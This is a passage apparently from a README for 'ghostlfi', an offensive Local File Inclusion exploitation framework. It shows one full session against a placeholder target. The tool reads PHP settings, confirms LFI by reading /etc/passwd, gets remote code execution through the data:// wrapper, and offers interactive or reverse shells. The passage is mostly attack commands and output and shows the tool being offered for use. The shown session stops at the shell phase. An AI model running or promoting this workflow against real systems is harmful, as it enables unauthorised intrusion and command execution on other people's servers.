 ## 💻 Complete Example Session

```bash
$ python3 ghostlfi.py -u http://target.com/page.php -p file --auto --advanced

   ██████╗ ██╗  ██╗ ██████╗ ███████╗████████╗██╗     ███████╗██╗
  ██╔════╝ ██║  ██║██╔═══██╗██╔════╝╚══██╔══╝██║     ██╔════╝██║
  ██║  ███╗███████║██║   ██║███████╗   ██║   ██║     █████╗  ██║
  ██║   ██║██╔══██║██║   ██║╚════██║   ██║   ██║     ██╔══╝  ██║
  ╚██████╔╝██║  ██║╚██████╔╝███████║   ██║   ███████╗██║     ██║
   ╚═════╝ ╚═╝  ╚═╝ ╚═════╝ ╚══════╝   ╚═╝   ╚══════╝╚═╝     ╚═╝

        ▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄▄ 
       ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌
       ▐░█▀▀▀▀▀▀▀▀▀ ▐░█▀▀▀▀▀▀▀█░▌ ▀▀▀▀█░█▀▀▀▀ 
        ...LFI...

╔════════════════════════════════════════════════════════════════════╗
║          Local File Inclusion Exploitation Framework             ║
║                    Ghost Ops Security                              ║
╚════════════════════════════════════════════════════════════════════╝

[*] Target URL: http://target.com/page.php
[*] Parameter:  file
[*] Version:    2.0 - Ghost Edition

============================================================
[PHASE 1] PHP Configuration Check
============================================================
[*] Attempting to read PHP configuration...
[✓] allow_url_include = On (data://, php://input, RFI enabled)
[✓] allow_url_fopen = On
[!] expect extension not found (expect:// unavailable)
[+] Found config: /etc/php/7.4/apache2/php.ini

============================================================
[PHASE 2] LFI Vulnerability Test
============================================================
[✓] LFI vulnerability confirmed!
    Successfully read: /etc/passwd

============================================================
[PHASE 3.2] Testing data:// Wrapper
============================================================
[*] Testing data:// with base64 encoding...
[✓] data:// wrapper (base64) RCE successful!
    Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)...

============================================================
[SUCCESS] RCE Achieved!
============================================================

[?] What would you like to do?
  1) Interactive shell
  2) Reverse shell
  3) Generate payloads
  4) Exit

Choice [1]: 1

============================================================
[PHASE 5] Interactive Shell
============================================================
```